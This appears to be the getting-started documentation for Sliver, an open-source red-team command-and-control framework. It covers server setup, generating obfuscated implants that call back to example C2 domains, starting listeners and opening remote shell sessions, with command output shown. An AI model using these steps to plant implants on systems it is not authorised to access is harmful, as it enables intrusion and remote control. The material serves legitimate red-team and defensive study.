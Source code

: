 ## Server Setup

The server supports Linux, Windows, and MacOS however we recommend running the server on a Linux host, some features may be more difficult to get working on a Windows or MacOS server but all basic built-in functionality should work fine.

Download the latest [release](https://github.com/BishopFox/sliver/releases) for your platform, and just run the binary. The first time you run the server it'll need to unpack some assets, which may take a minute or two, subsequent start ups should be faster.

__NOTE:__ Sliver has two external dependancies for optional features: MinGW and Metasploit. To enable shellcode/staged payloads you need to install MinGW. To enable MSF integrations you'll need Metasploit installed.

The `Dockerfile` build of Sliver is mostly designed to run the unit tests but includes both MinGW and Metasploit. If you plan to run the server using Docker you'll need to forward the appropriate TCP ports (e.g. 80, 443, 31337) yourself.


### MinGW Setup

In order to enable shellcode/staged/DLL payloads you'll need to install MinGW on the server (clients connecting to the server do not need it installed). By default Sliver will look in the usual places for MinGW binaries but you can override this using the [environment variable](https://github.com/BishopFox/sliver/wiki/Environment-Variables) `SLIVER_CC`.

#### Linux

```
apt-get install mingw-w64 binutils-mingw-w64 g++-mingw-w64
```

#### MacOS

```
brew install mingw-w64
```

### Metasploit Setup

We strongly recommend using the [nightly framework installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers), Sliver expects version 5 or later.

## Generating Implants

Generating implants is done using the `generate` command, you must specify at least one C2 endpoint using `--mtls`, `--http`, or `--dns`. Note that when an implant attempts to connect to an endpoint specified using `--http` it will try both HTTPS and then HTTP (if HTTPS fails). We recommend using mutual TLS (`--mtls`) whenever possible. You can also specify an output directory with `--save`, by default the implant will be saved to the current working directory.

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop

[*] Generating new windows/amd64 Sliver binary
[*] Symbol obfuscation is enabled, this process takes about 15 minutes
[*] Build completed in 00:10:16
[*] Sliver binary saved to: /Users/moloch/Desktop/NEW_GRAPE.exe
```

__IMPORTANT:__ The symbol obfuscation process can take 15+ mintues to complete depending on your server's CPU resources. You can skip this step with `--skip-symbols` but a lot of sketchy information will end up in the binaries that get generated. You should only use this flag if you're just playing around, or do not care about stealth.

Sliver implants are cross-platform, you can change the compiler target with the `--os` flag:

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop --skip-symbols --os mac

[*] Generating new darwin/amd64 Sliver binary
[!] Symbol obfuscation is disabled
[*] Build completed in 00:00:03
[*] Sliver binary saved to: /Users/moloch/Desktop/PROPER_ANTHONY
```

The server will also assign codenames to each generated binary i.e. `NEW_GRAPE.exe` you can rename the file to anything you need to, but these codenames will still uniquely identify the generated binary (they're inserted at compile-time). You can also view all previously generated implant binaries with the `slivers` command:

```
sliver > slivers

Name                    OS/Arch        Debug  Format
====                    =======        =====  ======
CAUTIOUS_PANPIPE        darwin/amd64   false  EXECUTABLE
LATE_SUBCOMPONENT       windows/amd64  false  SHARED_LIB
RUBBER_PRINTER          windows/amd64  true   SHARED_LIB
RACIAL_SPECTACLES       darwin/amd64   false  EXECUTABLE
MATHEMATICAL_SASH       darwin/amd64   true   SHARED_LIB
MUSHY_TRADITIONALISM    windows/amd64  false  SHARED_LIB
SICK_SPY                darwin/amd64   false  EXECUTABLE
```

If you need to re-download a previously generated implant use the `regenerate` command:

```
sliver > regenerate --save /Users/moloch/Desktop/ NEW_GRAPE

[*] Sliver binary saved to: /Users/moloch/Desktop/NEW_GRAPE.exe
```


## Getting Shells

Before you can catch the shell, you'll first need to start a listener. You use the commands `mtls`, `http`, and `dns` to start listeners for each protocol (`http` is also used for HTTPS). You can use the `jobs` command to view and manage listeners running in the background.

```
sliver > mtls

[*] Starting mTLS listener ...
[*] Successfully started job #1

sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   mTLS  tcp       8888
```

In this example we're using Mutual TLS, the required certificates for setting up and securing this connection have already been generated in the background and the client certificate pair was embedded into the implant at compile-time. So to get a shell you just have to run the binary on the target.

```
[*] Session #1 PROPER_ANTHONY - 127.0.0.1:49929 (narvi.local) - darwin/amd64

sliver > use 1

[*] Active sliver PROPER_ANTHONY (1)

sliver (PROPER_ANTHONY) > ls

/Users/moloch/Desktop
=====================
.DS_Store                 6.0 KiB
.localized                0 B
PROPER_ANTHONY            6.3 MiB
```


## Multiple Domains/Protocols

You can specify multiple domains and protocols during the generation process. Right now Sliver will attempt to use the most performant protcolts first (MTLS -> HTTP(S) -> DNS) using subsequent domains/protocols when connections fail.

```
sliver > generate --mtls example.com --http foobar.com --dns 1.lil-peep.rip
```

